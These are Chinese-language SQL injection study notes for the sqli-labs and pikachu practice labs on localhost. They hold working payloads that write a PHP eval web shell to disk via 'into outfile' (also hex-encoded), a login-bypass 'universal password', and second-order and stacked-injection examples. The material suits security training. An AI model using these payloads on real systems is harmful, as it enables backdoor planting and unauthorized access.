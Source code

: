 ③into outfile

```sql
# 利用union注入写入一句话木马 into outfile 和 into dumpfile 都可以
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,2,'\<?php @eval($_POST[123]);?\>' into outfile 'E://Users//Desktop//1.php' --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,2,load_file('E://Users//Desktop//1.php') --+

# 可以将一句话木马转换成16进制的形式
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,2,0x3c3f70687020406576616c28245f504f53545b3132335d293b3f3e into outfile 'E://Users//Desktop//2.php' --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,2,0x3c3f70687020406576616c28245f504f53545b3132335d293b3f3e into dumpfile 'E://Users//Desktop//2.php' --+
```

### 万能密码

```sql
select * from users where username='admin' and password='admin'
select * from users where username='admin'or'1' and password='admin'or'1'
select * from users where username='admin'or'1'#' and password='admin'or'1'
```

### 二次注入

利用门槛很高

第一步：输入恶意数据。

第二步：调用恶意数据。

```
1'#
1\'#
进到数据库后又变成了1'#
利用1'#进行注入
```

less-24

### 堆叠注入

可以同时去执行多条sql语句。分号间隔

```sql
select * from users where id=1;select 1,2,3,4,5,6,7;select database();select if(a,b,c)
```

### insert、update、delete注入

pikachu靶场

### 数据包参数注入

get post  cookie   header host  xff  referer  ua 等
